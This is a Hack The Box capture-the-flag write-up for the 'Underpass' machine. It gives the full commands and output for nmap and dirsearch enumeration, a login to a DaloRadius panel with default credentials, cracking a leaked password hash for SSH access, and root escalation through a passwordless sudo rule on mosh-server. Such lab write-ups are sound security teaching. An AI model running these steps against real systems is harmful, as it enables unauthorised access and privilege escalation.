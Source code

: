 ```yaml
---
layout: post
title: "Hack The Box: Underpass"
date: 2025-05-23
categories: [HackTheBox, Writeup]
tags: [Linux, easy, daloradius, mosh, privilege-escalation]
toc: true
---
```


#  Hack The Box: Underpass 
## Table of Contents

- [Enumeration](#enumeration)
  - [Nmap Scan](#nmap-scan)
  - [Daloradius Web Application](#daloradius-web-application)
- [Exploitation](#exploitation)
  - [Initial Foothold](#initial-foothold)
  - [Privilege Escalation](#privilege-escalation)


Posted May 23, 2025
![Description](assets/images/UnderPass/image (1).png)

**UnderPass** is an **easy-difficulty machine** from Hack The Box that starts with an
exposed **Daloradius** instance, accessible using **default credentials**. Inside the
application, we discover a password **hash** which we successfully crack. The
recovered credentials allow SSH access to the target machine. Once on the box, we
find that we can launch a **mosh server** with root privileges, which we exploit to
escalate our privileges and ultimately gain **root access**.



##  Enumeration
### nmap scan
### We begin with an Nmap scan:

```bash
$ nmap -A -Pn 10.10.11.48

Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 10:17 W. Central Africa Standard Time
Nmap scan report for 10.10.11.48
Host is up (0.47s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_ 256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open http Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.77 seconds
```

**Open Ports:**
- **22/tcp** – SSH 
- **80/tcp** – HTTP

 Trying to access the website, it looks like we have a default apache page

![Description](assets/images/UnderPass/image (2).png)
### Daloradius web application
### Using `dirsearch`, we discovered a hidden web directory at `/daloradius/`, which is commonly associated with the DaloRadius web interface:

```bash
$ dirsearch -u "http://underpass.htb/daloradius/" -t 50

|. _ _ _ _ _ | v0.4.3
(
||| ) (/(|| (| )
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist
size: 11460
Output File: /home/kali/UnderPass/reports/http_underpass.htb/_daloradius__24-1222_12-58-34.txt
Target: http://underpass.htb/
[12:58:34] Starting: daloradius/
[12:58:39] 200 - 221B - /daloradius/.gitignore
[12:58:47] 301 - 323B - /daloradius/app -> http://underpass.htb/daloradius/app/
[12:58:49] 200 - 24KB - /daloradius/ChangeLog
[12:58:51] 301 - 323B - /daloradius/doc -> http://underpass.htb/daloradius/doc/
[12:58:51] 200 - 2KB - /daloradius/docker-compose.yml
[12:58:51] 200 - 2KB - /daloradius/Dockerfile
[12:58:57] 301 - 327B - /daloradius/library ->
http://underpass.htb/daloradius/library/
[12:58:57] 200 - 18KB - /daloradius/LICENSE
[12:59:04] 200 - 10KB - /daloradius/README.md
[12:59:05] 301 - 325B - /daloradius/setup ->
http://underpass.htb/daloradius/setup/
Task Completed
```



##  Exploitation
### initial foothold
While researching daloradius online, I identified a commonly used login path at /daloradius/operators/login.php. Accessing this path revealed a login panel for the daloradius web interface.

![Description](assets/images/UnderPass/image (3).png)
### 1. **Accessing DaloRadius**
We navigate to `/daloradius/operators/login.php` and log in with default credentials:

- **Username:** administrator  
- **Password:** radius

![Description](assets/images/UnderPass/image (4).png)
### 2. **Retrieving User Hash**
Inside DaloRadius, we find a user `svcMosh` with the following hash:

```
412DD4759978ACFCC81DEAB01B382403
```
![Description](assets/images/UnderPass/image (3).png)

Using [crackstation.net](https://crackstation.net), we crack the hash:

- **Password:** underwaterfriends

### 3. **Gaining SSH Access**
We SSH into the box:

```bash
ssh svcMosh@underpass.htb
# Password: underwaterfriends
```

And retrieve the user flag:

```bash
cat ~/user.txt
# -> bbfc40fc1389516f00b23bcb62c85872
```



###  Privilege Escalation

Checking `sudo` privileges:

```bash
sudo -l
```

We find:

```bash
Matching Defaults entries for svcMosh on localhost:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
use_pty
User svcMosh may run the following commands on localhost:
(ALL) NOPASSWD: /usr/bin/mosh-server

```

This means the user `svcMosh` can run the `mosh-server` command as root without needing to type a password.


1. On the victim machine:

```bash
$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 N7vPqLt4KrX9DfYmHsUw3A
mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein
mosh-devel@mit.edu
License GPLv3+: GNU GPL version 3 or later
http://gnu.org/licenses/gpl.html.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
[mosh-server detached, pid = 3100]
```

2. On the attacker machine:

```bash
$ MOSH_KEY=N7vPqLt4KrX9DfYmHsUw3A mosh-client <ip> 60001

Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
Documentation: https://help.ubuntu.com
Management: https://landscape.canonical.com
Support: https://ubuntu.com/pro
System information as of Tue Dec 24 03:25:41 PM UTC 2024
System load: 0.0 Processes: 227
Usage of /: 89.0% of 3.75GB Users logged in: 0
Memory usage: 10% IPv4 address for eth0: 10.129.243.71
Swap usage: 0%
=> / is using 89.0% of 3.75GB
Expanded Security Maintenance for Applications is not enabled.
0 updates can be applied immediately.
Enable ESM Apps to receive additional future security updates.
See
https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
#
```

You're now root:

```bash
id
# uid=0(root) gid=0(root)

cat /root/root.txt
# -> 95bfbcdd99b59de1bead0d706a1c6774
```



##  Summary

-  Enumerated daloradius on web server
-  Used default credentials
-  Cracked hash to gain SSH access
-  Escalated privileges via `mosh-server`

Pwned! 🎉

